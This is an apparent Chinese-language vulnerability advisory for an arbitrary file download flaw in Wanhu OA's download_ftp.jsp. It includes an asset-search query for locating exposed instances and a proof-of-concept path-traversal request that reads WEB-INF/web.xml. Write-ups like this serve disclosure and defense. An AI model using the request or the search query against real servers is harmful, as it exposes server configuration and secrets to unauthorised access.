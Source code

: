 # 万户OA download_ftp.jsp 任意文件下载漏洞

## 漏洞描述

万户OA download_ftp.jsp文件存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

<a-checkbox checked>万户OA </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="万户网络-ezOFFICE"</a-checkbox></br>

## 漏洞复现

产品页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1631323798806-958050db-05f6-47ca-95b4-74487ee67a66.png)

验证POC

```javascript
/defaultroot/download_ftp.jsp?path=/../WEB-INF/&name=aaa&FileName=web.xml
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1646135727614-308c38fd-932b-4dc1-a43d-aa5ddfe6898a.png)